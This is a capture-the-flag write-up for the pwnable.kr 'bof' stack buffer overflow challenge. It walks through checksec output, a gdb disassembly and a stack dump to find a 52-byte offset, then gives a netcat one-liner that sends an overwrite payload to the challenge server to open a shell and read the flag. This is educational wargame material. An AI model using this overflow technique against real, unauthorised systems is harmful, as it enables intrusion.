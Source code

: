 The binary has the following security properties:
```
uzi@pwnpatrol:$ checksec --file bof
[*] '/home/uzi/bof/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The 0xcafebabe comparison is at func+40.
```
(gdb) disassemble func
Dump of assembler code for function func:
0x5655562c <+0>:     push   ebp
0x5655562d <+1>:     mov    ebp,esp
0x5655562f <+3>:     sub    esp,0x48
0x56555632 <+6>:     mov    eax,gs:0x14
0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
0x5655563b <+15>:    xor    eax,eax
0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
0x56555644 <+24>:    call   0x56555645 <func+25>
0x56555649 <+29>:    lea    eax,[ebp-0x2c]
0x5655564c <+32>:    mov    DWORD PTR [esp],eax
0x5655564f <+35>:    call   0x56555650 <func+36>
0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
```
Put a breakpoint there and run the application
```
(gdb) b *func +40
Breakpoint 1 at 0x56555654
(gdb) r <<< AABBCCDD
Starting program: /home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/bof/bof <<< AABBCCDD
overflow me :

Breakpoint 1, 0x56555654 in func ()
```
Dump the stack frame. ```ebp-0x48``` because, func allocated 0x48 bytes in stack via ```sub esp,0x48```
```
(gdb) x/24wx $ebp-0x48
0xffffcf40:     0xffffcf5c      0x00000000      0x00000000      0x7e9b3000
0xffffcf50:     0x00000009      0xffffd185      0xf7e184a9      0x42424141
0xffffcf60:     0x44444343      0xf7fc0000      0x00000001      0x5655549d
0xffffcf70:     0xf7fc03fc      0x00000000      0x56556ff4      0x7e9b3000
0xffffcf80:     0x00000000      0xf7e185db      0xffffcfa8      0x5655569f
0xffffcf90:     0xdeadbeef      0x00000000      0x565556b9      0x00000000
```
As seen above, we need 52 bytes till parameter to func.

Along with the script, challange can be solved with the following one-liner as well. After shell is opened, ```cat flag``` to get the flag
```
(python -c 'print("A"*52 + "\xbe\xba\xfe\xca")'; cat) | nc pwnable.kr 9000
```
